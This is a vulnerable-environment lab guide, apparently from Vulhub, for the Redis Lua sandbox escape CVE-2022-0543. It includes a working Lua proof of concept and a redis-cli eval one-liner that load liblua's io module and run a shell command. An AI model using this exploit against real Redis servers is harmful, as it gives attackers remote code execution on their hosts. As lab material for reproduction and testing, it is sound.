

# Redis Lua Sandbox Escape and Remote Code Execution (CVE-2022-0543)

[中文版本(Chinese version)](README.zh-cn.md)

Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.

Reginaldo Silva discovered that due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scripts could possibly escape the Lua sandbox and execute arbitrary code on the host.

References:

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## Vulnerability Environment

Execute following command to start a redis server 5.0.7 on Ubuntu:

```
docker-compose up -d
```

After server is started, you can connect to this server without credentials by `redis-cli`:

```
redis-cli -h your-ip
```

## Exploit

This vulnerability existed because the Lua library in Debian/Ubuntu is provided as a dynamic library. A `package` variable was automatically populated that in turn permitted access to arbitrary Lua functionality.

As this extended to, for example, you can use `package.loadlib` to load the modules from liblua, then use this module to execute the commands:

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

Noted that you should specify a correct realpath for the `liblua` library. In this Vulhub environment (Ubuntu focal), the value is `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`.

Eval this script in redis shell:

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Execute the commands successful:


